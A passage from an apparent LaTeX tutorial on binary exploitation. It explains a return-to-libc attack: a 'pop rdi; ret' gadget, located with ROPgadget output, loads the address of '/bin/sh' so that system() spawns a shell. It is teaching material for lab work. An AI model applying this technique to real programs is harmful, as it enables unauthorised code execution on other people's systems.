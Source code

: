 When our input is crafted as described above, the program will first
\texttt{pop} the location of "/bin/sh" into \texttt{rdi}. It will then execute
the following \texttt{ret} instruction, which will redirect execution to
\texttt{system()} while "/bin/sh" is in \texttt{rdi} as the argument, which will
grant us a shell.

The only new task is to find the location of \texttt{pop rdi; ret}. This snippet
of code is called a \emph{gadget}. Although it's possible to do this manually by
searching for all of the \texttt{ret} instructions and searching backwards for
\texttt{pop} instructions, it is much easier to use an automated tool like
ROPgadget, and \texttt{grep} through the results.

\begin{lstlisting}
> ROPgadget --binary ret2libc | grep "pop rdi"
0x0000000000430758 : pop rdi ; adc byte ptr [rdx + 8], dh ; movaps xmmword ptr [rdi], xmm4 ; jmp r9
0x000000000042c3fd : pop rdi ; add eax, dword ptr [rax] ; add byte ptr [rax - 0x7d], cl ; ret 0x4910
0x0000000000432179 : pop rdi ; in al, dx ; mov qword ptr [rdi - 0xc], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431f89 : pop rdi ; in eax, dx ; mov qword ptr [rdi - 0xb], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x00000000004bbcde : pop rdi ; insd dword ptr [rdi], dx ; test eax, 0x7d4c8c5d ; ret 0xd8f
0x0000000000441d82 : pop rdi ; jmp rax
0x00000000004baca1 : pop rdi ; mov dh, 0x4e ; ret 0x474c
0x000000000049e88e : pop rdi ; mov rax, rbx ; pop rbx ; pop rbp ; pop r12 ; ret
0x0000000000431da9 : pop rdi ; out dx, al ; mov qword ptr [rdi - 0xa], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431bd9 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], r8 ; mov dword ptr [rdi - 4], edx ; ret
0x0000000000431cd5 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], rcx ; mov byte ptr [rdi - 1], dl ; ret
0x0000000000431c21 : pop rdi ; out dx, eax ; mov qword ptr [rdi - 9], rcx ; mov dword ptr [rdi - 4], edx ; ret
0x000000000040214a : pop rdi ; pop rbp ; ret
0x0000000000401526 : pop rdi ; ret
0x000000000047b90d : pop rdi ; std ; inc dword ptr [rbp - 0x76b48a40] ; ret
> 
\end{lstlisting}

Luckily, the exact gadget we need is located at \texttt{0x401526}. If we include
this address in our input and follow it with the location of "/bin/sh", the
program will first \texttt{pop} the location of "/bin/sh" into \texttt{rdi},
then redirect execution to any address we follow it with. We can find the
location of "/bin/sh" with \texttt{pwndbg}, vanilla \texttt{gdb},
\texttt{objdump}, and most importantly for our purposes, \texttt{pwntools}.

